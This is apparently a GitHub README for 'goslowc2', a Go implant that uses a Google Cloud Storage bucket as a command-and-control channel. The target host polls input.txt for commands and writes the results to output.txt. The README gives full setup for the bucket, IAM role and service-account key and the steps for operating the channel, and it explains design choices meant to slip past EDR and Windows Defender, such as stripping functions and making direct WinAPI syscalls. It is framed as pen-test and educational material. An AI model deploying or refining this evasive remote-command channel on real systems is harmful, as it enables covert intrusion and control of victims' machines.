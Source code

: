 # goslowc2
A demonstration of using GoLang and GCP Storage for a quick and easy evasion payload.

### Why?
1. Found GoLang is not as widely supported for reverse engineering tools without plugins or some tuning which also infers that EDR platforms haven't caught up as much either
2. GoLang allows the advantages of memory handling of scripting language but the performance of a compiled language because you can 'go build foo.go' something
3. Google Cloud Platform (GCP) Storage SDK automatically allows for authentication TLS v1.2 secure endpoints and a scratch pad for input and output for easy asynchronous communication
4. Running GoLang os.exec and the syscall.call methods to unsafe (non type casted) unsigned integer pointers C style for interesting Windows 10/11 Q4 2022 Defender default 'evasion' shell or additional payload routines vs. the C running the system method that immediately triggers a backdoor alert and cloud scan
5. General grudge: Google SOC sent me a nasty gram about my C payload stored in my personal Google Drive account. GoLang was made by Google Developers. I wanted to make it ironic because this would have been so much easier using a packer + python3.
6. Maybe you don't have access to the standard MSF multi/handler in a pen test?

### Complementing gowrap module
This module is to demonstrate using os.exec to wrap and execute another Go script or binary as a subprocess which easily can trigger an IOC but also allows for easy ingestion (with some modification) of running input.txt with straight GoLang WinAPI sys calls for future "evasion" considerations. I also included notes about some strange behaviors found when using user32.dll MessageBoxA.


## Code Setup
go mod init goslowc2/main
go get cloud.google.com/storage
go build goslowc2

## GCP Storage bucket setup

    gsutil mb gs://BUCKET_NAME
    
    gcloud iam service-accounts create SA_NAME \
        --description="DESCRIPTION" \
        --display-name="DISPLAY_NAME"
    
    gcloud projects add-iam-policy-binding PROJECT_ID \
        --member="serviceAccount:SA_NAME@PROJECT_ID.iam.gserviceaccount.com" \
        --role="ROLE_NAME"
    
For CLI need to create YAML for the permissions to bind to a role

    title: goslow-role  
    description: foo  
    stage: GA  
    includedPermissions:  
    -  storage.objects.create  
    -  storage.objects.get   

Create the role at the project level

    gcloud iam roles create role-id --project=project-id \
        --file=yaml-file-path

Bind the role to the service account

    gcloud iam service-accounts add-iam-policy-binding \  SA_NAME@PROJECT_ID.iam.gserviceaccount.com \  --member="user:USER_EMAIL"  \  --role="roles/iam.serviceAccountUser"

Grab a JSON key to download and run in the same directory as goslowc2

    gcloud iam service-accounts keys create KEY_FILE \
        --iam-account=SA_NAME@PROJECT_ID.iam.gserviceaccount.com

## Using the C2 Channel
1. Create a input.txt in the root namespace of your **bucket** with a single command syntax such as "whoami" or "dir"
2. Run goslowc2.exe on targethost
3. Wait for the output.txt to show up in your bucket in the same root namespace
4. gsutil cp gs://YOURBUCKET/*.txt ./
5. cat ./output.txt
6. echo "whoami" > input.txt
7. gsutil cp ./input.txt gs://YOURBUCKET


## Runtime
**IMPORTANT**: Be sure to modify any variables in the code before building as the initial values are for demo purposes only

    cp <yourserviceaccountkey.json> ./
    go build goslowc2.go
    goslowc2.exe #this is going to be your payload running on target host

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime2.png?raw=true)

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime1.png?raw=true)

## Notes
**DISCLAIMER**: The author is NOT responsible for misuse or abuse of this educational source
// goslowc2 is a demo payload execution for using GCP Storage bucket and objects as the C2 mechanism the time of development Q4 2022 windows defender did not trigger the OS.exec method unless functions were stripped at build time

// For stealthier payload consider using my complement consider using direct WinAPI syscalls converting to unsigned integer pointers

// Author: Dennis Chow dchow[AT]xtecsystems.com 11/20/2022

// Requirements: GCP storage bucket and service account credential foo.json in the same runtime directory

// Confirmed working on GoLang 1.18.4 and GCP Storage SDK 1.28.0
